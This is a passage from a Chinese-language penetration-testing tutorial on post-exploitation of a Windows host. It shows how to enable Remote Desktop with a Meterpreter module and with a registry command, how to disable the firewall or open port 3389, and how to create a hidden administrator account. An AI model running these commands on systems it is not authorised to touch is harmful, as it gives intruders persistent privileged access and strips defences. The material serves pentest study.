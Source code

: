 不知道是本来开了3389还是公网环境的问题，这里看的时候就已经开了3389了

### 利用msf

如果没有开可以用meterpreter开启远程桌面`run post/windows/manage/enable_rdp`

![image-20231201141735224](images/28.png)

这里显示RDP已经开了

### 手动开启

手动去开启3389端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

如果要手动关闭的话则把上面的0换成1

```
关闭防火墙
netsh firewall set opmode disable   			#winsows server 2003 之前
netsh advfirewall set allprofiles state off 	#winsows server 2003 之后


或者让防火墙对3389端口放行
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

## 添加账户远程连接

```
net user username password /add
net localgroup Administrators username /add
```
